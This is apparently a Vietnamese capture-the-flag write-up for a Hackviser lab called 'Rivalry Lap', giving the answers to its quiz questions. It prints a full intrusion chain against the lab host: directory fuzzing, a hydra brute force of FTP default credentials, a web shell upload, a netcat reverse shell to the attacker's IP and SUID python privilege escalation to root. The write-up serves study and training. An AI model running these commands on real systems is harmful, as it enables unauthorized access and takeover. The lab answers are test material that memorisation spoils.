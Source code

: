 ```yaml
---
title: "Rivalry Lap"
published: 2025-09-19
description: "Bài này khá là hay."
tags: [CAPT, Hackviser]
category: Write up
draft: false
---
```


# **Rivalry Lap**
## How many new clients does the CEO of Orbitronix Systems, Emily Johnson, claim they have gained?
- truy cập trang web tôi thấy được giới thiệu ở gần cuối trang rằng **"CreateEdge's strategies gained us 3500 new customers in just a few months!"**
==> điều đó cho biết được rằng đáp án là **3500**

---
## What is the advertising budget of Orbitronix Systems in dollars?
- Thử dùng công cụ ffuf để quét thư mục , tôi phát hiện được 1 thư mục có tên **ftp**
```
 ffuf -ic-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e '.php'-u http://createdge.hv/FUZZ/ -t 40

     /'___\  /'___\           
   /\ \__/ /\ \__/  __  __  /\ \__/       
   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
    \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
     \ \_\ \ \_\ \ \____/  \ \_\          
      \/_/  \/_/  \/_/___/   \/_/          
v2.1.0-dev
 ________________________________________________
:: Method           : GET        
:: URL              : http://createdge.hv/FUZZ/       
:: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list     
2.3-medium.txt
:: Extensions       : .php 
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10   
:: Threads          : 40   
:: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 ________________________________________________
 .php                     [Status: 200, Size: 10752, Words: 3217, Lines: 272, Duration: 188ms]
 icons                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 183ms]
 assets                   [Status: 200, Size: 1501, Words: 100, Lines: 20, Duration: 182ms]
 ftp                      [Status: 200, Size: 935, Words: 62, Lines: 17, Duration: 182ms]

```
- Truy cập vào thư mục ta thấy được 1 file **clients.csv** . Tải nó về và mở ra thì có nội dung là :
```
Company Name,Advertising Budget ($)
Innovatech Ltd,50000
QuantumSoft,75000
BlueHaven Tech,60000
PinnacleByte,45000
SysTech Global,80000
Orbitronix Systems,225000
NexaCore Tech,30000
Zenithar Tech,70000
VortexaTech,55000
NovaSphere Tech,65000

```
==> đáp án là **225000**

---
## Who is the target audience of the Orbitronix Systems advertising campaign?
- Tôi quét mục tiêu bằng công cụ nmap thì phát hiện có bật cổng dịch vụ ftp trên port 21
- Sau đó tôi đã dùng công cụ hydra để quét các cặp tài khoản mật khẩu dễ bị xâm phạm 
```
┌─[✗]─[root@hackerbox]─[~]
└──╼ #hydra -f -V -I -t 4 -s 21 -C /root/Desktop/misc/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 172.20.22.208 ftp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-19 08:52:24
[DATA] max 4 tasks per 1 server, overall 4 tasks, 66 login tries, ~17 tries per task
[DATA] attacking ftp://172.20.22.208:21/
[ATTEMPT] target 172.20.22.208 - login "anonymous" - pass "anonymous" - 1 of 66 [child 0] (0/0)
[ATTEMPT] target 172.20.22.208 - login "root" - pass "rootpasswd" - 2 of 66 [child 1] (0/0)
[ATTEMPT] target 172.20.22.208 - login "root" - pass "12hrs37" - 3 of 66 [child 2] (0/0)
[ATTEMPT] target 172.20.22.208 - login "ftp" - pass "b1uRR3" - 4 of 66 [child 3] (0/0)
[ATTEMPT] target 172.20.22.208 - login "ftp_boot" - pass "ftp_boot" - 48 of 66 [child 0] (0/0)
[ATTEMPT] target 172.20.22.208 - login "uploader" - pass "ZYPCOM" - 49 of 66 [child 1] (0/0)
[ATTEMPT] target 172.20.22.208 - login "ftpuser" - pass "password" - 50 of 66 [child 2] (0/0)
[ATTEMPT] target 172.20.22.208 - login "USER" - pass "USER" - 51 of 66 [child 3] (0/0)
[21][ftp] host: 172.20.22.208   login: ftpuser   password: password
[STATUS] attack finished for 172.20.22.208 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-19 08:52:36

```
==> Thấy được công cụ đã quét được tài khoản mật khẩu để đăng nhập dịch vụ ftp là **ftpuser:password**
- Đăng nhập vào dịch vụ ftp 
```
ftp 172.20.22.208
```
- Tôi đã tạo 1 file web shell ở [đây](https://github.com/flozz/p0wny-shell) , sau đó tôi tải nó lên sever web
```
put shell.php
```
- Quay trở lại shell tôi cấu hình lắng nghe trên cổng 8888
```
nc -lvp 8888
```
- Sau đó tôi truy cập file shell trên trình duyệt và chạy câu lệnh
```
www-data@debian:/# nc -e /bin/bash 172.20.22.91 8888
```
- Khi có được shell , tôi đã chạy python để có được 1 shell chỉnh chu và đẹp mắt hơn
```
python3 -c 'import os; os.system("/bin/bash")'
```
---
- Dùng find để tìm kiếm file thực thi có setuid được bật để tìm kiếm cơ hội leo thang đặc quyền .
```
find / -perm -4000 2>/dev/null
/usr/bin/umount
/usr/bin/passwd
/usr/bin/mount
/usr/bin/python3.9
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
- python3.9 có bật setuid là 1 lỗ hỏng có thể leo thang đặc quyền .
```
python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
- Khi đã có root tôi truy cập vào đường dẫn /archive/detailed_client_info.csv
, nội dung của file này là:
```
Company Name,Advertising Budget ($),Campaign Objective,Campaign Success,Target Audience,Campaign Duration (Months)
Innovatech Ltd,50000,Customer Retention,Yes,Long-term Customers,6
QuantumSoft,75000,Sales Increase,No,Professionals,3
BlueHaven Tech,60000,Product Launch,Yes,Tech Enthusiasts,4
PinnacleByte,45000,Market Expansion,Yes,Global Market,5
SysTech Global,80000,Online Engagement,No,Online Shoppers,2
Orbitronix Systems,225000,Brand Awareness,Yes,Young Adults,12
NexaCore Tech,30000,Brand Awareness,No,Youth,7
Zenithar Tech,70000,Sales Increase,Yes,B2B Clients,1
VortexaTech,55000,Market Expansion,No,Local Market,8
NovaSphere Tech,65000,Product Launch,Yes,Innovators,9
```
==> đáp án cho câu hỏi này là : **Young Adults**
---
## What is the name of the secret marketing tool developed by Create Edge?

- Tiếp tục đọc nội dung của file /archive/meetings/orbitronix_system-2023-11-20.txt thấy được đoạn nội dung này :
```
Meeting Notes: Create Edge - Orbitronix Systems
Date: 2023-11-20
Location: Create Edge Headquarters

Attendees:
- Alex Carter (Create Edge, Marketing Director)
- Sophia Reynolds (Orbitronix Systems, Senior Project Manager)

Agenda:
1. Introduction and objectives of the meeting.
2. Discussion on current market trends and consumer behavior.
3. Overview of Orbitronix Systems' marketing goals.
4. Create Edge's proposed marketing strategies for Orbitronix Systems.
5. Budget considerations and timelines.
6. Q&A and next steps.

Key Points Discussed:
- Orbitronix Systems is seeking to enhance its brand visibility and customer engagement.
- Create Edge presented a comprehensive digital marketing strategy, focusing on social media and content marketing.
- Discussed the importance of SEO and online presence for Orbitronix Systems.
- Budget allocation for the campaign was tentatively agreed upon, subject to approval by Orbitronix Systems' finance department.
- Proposed timeline for the marketing campaign rollout is 12 months, starting from February 2024.

Secret and Highly Important Information:
- Alex Carter revealed that Create Edge has developed a groundbreaking AI-driven marketing analysis tool,which name is InsightNexus AI, which they plan to implement for the first time in the Orbitronix campaign.
- Sophia Reynolds mentioned a potential merger between Orbitronix Systems and another major tech player, which could significantly shift the market dynamics.

Action Items:
- Create Edge to send a detailed proposal to Orbitronix Systems by 2024-01-27.
- Orbitronix Systems to review and provide feedback on the proposal by 2024-02-03.
- Schedule a follow-up meeting to finalize the campaign details.

Meeting concluded at 3:30 PM.
```
==> Qua đoạn hội thoại trên ta thấy được đáp án chính là : **InsightNexus AI**


